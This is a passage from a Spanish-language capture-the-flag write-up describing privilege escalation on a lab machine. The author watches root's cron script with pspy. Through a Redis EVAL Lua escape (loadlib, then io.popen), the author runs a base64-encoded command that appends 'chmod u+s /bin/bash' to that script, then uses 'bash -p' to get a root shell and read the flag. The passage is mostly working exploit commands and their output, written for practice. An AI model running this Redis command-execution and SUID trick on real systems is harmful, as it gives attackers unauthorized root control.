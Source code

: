 Pero existe otra alternativa, al listar lo procesos del sistema con la herramienta `pspy` encontramos que el usuario `root` ejecuta el siguiente script:

```console
2022/08/16 22:44:01 CMD: UID=0    PID=32279  | /bin/bash /root/c.sh 
2022/08/16 22:44:01 CMD: UID=0    PID=32280  | sleep 5 
2022/08/16 22:44:01 CMD: UID=1001 PID=32281  | /usr/bin/python3 /usr/local/bin/ipython 
2022/08/16 22:44:06 CMD: UID=0    PID=32283  | rm -rf /opt/scripts_review/* 
2022/08/16 22:44:06 CMD: UID=0    PID=32286  | perl -ne s/\((\d+)\)/print " $1"/ge 
2022/08/16 22:44:06 CMD: UID=0    PID=32285  | /bin/bash /root/c.sh 
2022/08/16 22:44:06 CMD: UID=0    PID=32284  | /bin/bash /root/c.sh
```

Observamos varios veces la ejecución del script `c.sh`, el cuál es una tarea **cron** que se ejecutará cada cierto tiempo. Entonces aplicamos lo mismo que antes y agregamos con el operador `>>` el comando `chmod u+s /bin/bash`:

> Para evitar problemas de sintáxis con los simbolos codificamos el comando en `base64`

```console
❯ echo "echo 'chmod u+s /bin/bash' >> /root/c.sh" | base64
ZWNobyAnY2htb2QgdStzIC9iaW4vYmFzaCcgPj4gL3Jvb3QvYy5zaAo=
```

Ahora pasamos la cadena y lo decodificamos de vuelta para luego interpretarla con bash:

```console
127.0.0.1:6379>  EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -l /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
"-rwxr-xr-x 1 root root 1234376 Mar 27 14:40 /bin/bash\n"
127.0.0.1:6379>  EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("echo ZWNobyAnY2htb2QgdStzIC9iaW4vYmFzaCcgPj4gL3Jvb3QvYy5zaAo= | base64 -d | bash", "r"); local res = f:read("*a"); f:close(); return res' 0
""
```

Por último esperamos unos segundos, volvemos a listar la `bash`, y ya tendremos asignado el permiso **SUID**. Así que lo ejecutamos como el propietario `bash -p`, conseguimos el acceso y la flag:

```console
127.0.0.1:6379>  EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("echo ZWNobyAnY2htb2QgdStzIC9iaW4vYmFzaCcgPj4gL3Jvb3QvYy5zaAo= | base64 -d | bash", "r"); local res = f:read("*a"); f:close(); return res' 0
""
127.0.0.1:6379>  EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -l /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
"-rwsr-xr-x 1 root root 1234376 Mar 27 14:40 /bin/bash\n"
127.0.0.1:6379> exit
dan_smith@shared:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# find / -name root.txt | xargs ls -l
-rw-r----- 1 root     root     33 Aug 16 09:09 /root/root.txt
```
